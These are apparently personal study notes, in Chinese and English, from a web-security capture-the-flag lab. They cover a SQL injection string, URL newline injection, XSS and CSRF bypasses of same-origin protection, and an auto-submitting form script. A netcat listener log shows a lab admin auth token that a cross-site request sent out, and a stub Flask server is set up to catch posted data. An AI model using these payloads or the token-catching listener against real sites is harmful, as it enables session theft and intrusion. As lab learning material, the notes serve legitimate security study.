 # sql注入
' OR 1=1 --
# Same origin:
scheme,host,port
# curl 进行路径解析的时候会把../自动略去，注意使用url encode

# url 注入技巧
%0A换行符

# XSS：chrome访问阻止 一些端口 如 6666等，1337不会触发
# 复杂请求 + 跨域 才会触发options
hacker@web-security~xss-7:~$ nc -lv localhost 1338
Listening on localhost 1338
Connection received on localhost 36852
GET /?auth=admin|.QXygTN2wiM2cjMyEzW} HTTP/1.1
Host: localhost:1338
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: http://challenge.localhost/
Origin: http://challenge.localhost
Connection: keep-alive
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=4d
# XSS vs crsf
XSS 直接在网站中注入scirpt
crsf 导航到我们的网站的一些脚本
# csrf越过SOP （同源保护）
flask.redirect
img不行
form 自动提交也可以

form here:
<script>document.forms[0].submit</script>

# CSRF +XSS 示例：
```py
from flask import Flask, request
import flask

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        print("Got POST:", request.form)
        return "Received."

```